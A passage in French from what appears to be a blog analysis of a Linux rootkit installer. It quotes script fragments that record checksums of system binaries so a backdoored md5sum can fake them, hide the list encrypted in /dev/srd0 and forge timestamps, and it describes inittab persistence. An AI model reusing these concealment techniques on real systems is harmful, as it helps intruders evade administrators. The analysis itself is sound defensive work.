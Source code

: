 ```bash
fi
```

Le setup créé un fichier `/usr/sbin/ttyload` qui sera chargé par init par le biais de `inittab`. On remarque que des lignes inutiles (car commentées) sont aussi insérées... Probablement pour essayer de noyer le poisson.  

Il ouvre aussi l'accès au port choisi par le pirate par le biais de `iptables`. Comme expliqué sur une autre analyse ce n'est pas forcément effectif : le firewall n'est pas forcément sur la même machine.

```bash
# Say hello to md5sum fixer boys n gurls !
if [ -f /sbin/ifconfig ]; then
  /usr/bin/md5sum /sbin/ifconfig >> .shmd5
fi
if [ -f /bin/ps ]; then
  /usr/bin/md5sum /bin/ps >> .shmd5
fi
if [ -f /bin/ls ]; then
  /usr/bin/md5sum /bin/ls >> .shmd5
fi

[coupé]

if [ -f /usr/bin/md5sum ]; then
  /usr/bin/md5sum /usr/bin/md5sum >> .shmd5
fi
```

Bonjour md5 fixer ! :D  

`md5sum` fait partie des fichiers backdoorés. Le rôle de la backdoor est de retourner une fausse somme de contrôle md5 qui rassurera l'administrateur. Pour cela il faut stocker les md5 des binaires originaux pour les retourner plus tard. C'est à ça que sert le fichier `.shmd5` que l'on voit ici.  

On notera que si `md5sum` est backdooré, ce n'est pas le cas de `sha1sum`...

```bash
if [ ! -f /dev/srd0 ]; then
  ./encrypt -e .shmd5 /dev/srd0
  touch -acmr /bin/ls /dev/srd0
  chattr a+r /dev/srd0
  chown -f root:root /dev/srd0
fi

rm -rf .shmd5
```

On trouve ici notre fichier `srd0` qui est effectivement créé dans `/dev`. Il est généré depuis le fichier de signatures `.shmd5` par le binaire `encrypt`.  

Je ne peux pas dire grand-chose sur ce binaire si ce n'est que AVG le détecte comme `Linux/Agent2.V`, qu'il pèse 15Ko, qu'il est compilé dynamiquement et strippé.  

On trouve les chaines `Encrypt / Decrypt tool`, `for all files !` et `syntx:`. Il prend l'option `-e` pour chiffrer et `-d` pour déchiffrer.  
